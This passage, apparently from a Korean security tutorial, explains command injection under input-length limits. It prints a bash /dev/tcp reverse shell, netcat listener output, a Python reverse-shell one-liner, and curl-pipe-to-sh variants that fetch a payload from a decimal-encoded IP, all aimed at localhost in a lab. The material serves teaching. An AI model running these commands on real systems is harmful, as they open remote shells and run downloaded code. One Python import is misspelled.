 Line 1 ~ 18: 공격자의 원하는 입력을 1 ~ 3바이트씩 입력한다. 이를 통해 /tmp/1 파일에는 `bash</dev/tcp/127.0.0.1/1234` 의 데이터가 입력된다.

Line 15 ~ 18: 숫자 뒤에 스페이스를 추가한 이유는 file descriptor로 인식되지 않기 위해서이다.

Line 19: `/tmp/1` 의 내용을 stdin으로 bash를 실행하여 리버스 쉘을 맺을 수 있다.

```bash
$ nc -l -p 1234 -k -v
Listening on [0.0.0.0] (family 0, port 1234)
Connection from 127.0.0.1 52536 received!
bash>&0 2>&0
id
uid=1000(dreamhack) gid=1000(dreamhack) groups=1000(dreamhack)
```

Line 1~2: 1234 포트로 tcp 연결을 기다리는 nc 명령어이다.

Line 3: 연결이 맺어짐을 알려준다

Line4: stdout과 stderr를 0번 fd(socket)로 redirection 시키는 bash를 생성한다. 이를 통해 원격의 데이터를 현재 소켓으로 출력할 수 있다.

### 입력 길이가 제한된 상황 - 2

---

네트워크를 통해 사용할 명령어를 전송하는 방법도 존재한다.

IP Address를 더욱 짧게 입력하기 위한 방법으로는 짧은 길이의 도메인을 사용하거나, ip2long 등이 있다.

IP Address는 long 형식으로 변환이 가능하고 다양한 어플리케이션에서 사용이 가능하다.

아래 코드 외에도 다양한 방법을 통해 변환할 수 있다.

```bash
#!/usr/bin/python3
import ipaddess
int(ipaddress.IPv4Address("127.0.0.1")) # 2130706433
```

네트워크를 통해 공격 시 먼저 Command Injection 취약점이 발생하는 쉘이 최종적으로 실행할 명령어가 포함된 페이지를 작성한다.

- index.html

```bash
python -c 'import socket,subprocess,os; s=socket.socket(socket.AF_INET,socket.SOCK_STREAM); s.connect(("127.0.0.1",1234)); os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2); p=subprocess.call(["/bin/sh","-i"]);'
```

네트워크 도구(curl, wget 등)를 통해 외부 서버에 존재하는 index.html를 다운받아 실행할 수 있도록 메타문자를 설정할 수 있다.

```bash
curl 2130706433|sh
$(curl 2130706433)
`curl 2130706433`
```

위 명령어가 성공적으로 실행하게 되면 아래와 같이 리버스 쉘이 실행되는 것을 확인할 수 있다.

```bash
$ nc -l -p 1234 -k -v
Listening on [0.0.0.0] (family 0, port 1234)
Connection from [127.0.0.1] port 1234 [tcp/*] accepted (family 2, sport 53220)
$ id
uid=1000(dreamhack) gid=1000(dreamhack) groups=1000(dreamhack)
$
```
